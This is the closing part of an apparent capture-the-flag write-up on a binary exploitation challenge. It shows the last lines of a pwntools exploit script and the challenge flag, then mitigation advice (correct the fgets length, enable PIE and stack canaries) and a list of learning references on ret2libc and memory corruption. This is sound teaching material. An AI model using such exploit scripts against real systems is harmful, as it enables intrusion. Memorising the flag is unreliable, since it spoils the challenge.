 ```python
session.sendline(payload)
session.sendlineafter("?",b"Q")

session.interactive()


### flag{I_wonder_if_there's_an_emacs_command_for_writing_pwn_exploits?} ### 
```


### 4.F: Mitigation

- Checking `fgets` is reading 24 bytes, as per the declared buffer.
- Enabling PIE and Stack Canaries

# References:

https://libc.rip/
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
https://ropemporium.com/
__MUCH RECOMMENDED VIDEO BY JOHN HAMMOND__ https://www.youtube.com/watch?v=tMN5N5oid2c&t=2329s
https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got
https://ir0nstone.gitbook.io/notes/other/pwntools/elf
https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
https://stackoverflow.com/questions/672461/what-is-stack-alignment
https://www.comparitech.com/blog/information-security/integer-overflow-attack/
https://owasp.org/www-community/attacks/Format_string_attack
https://exploit.education/protostar/
https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN - Memory corruption playlist by liveoverflow

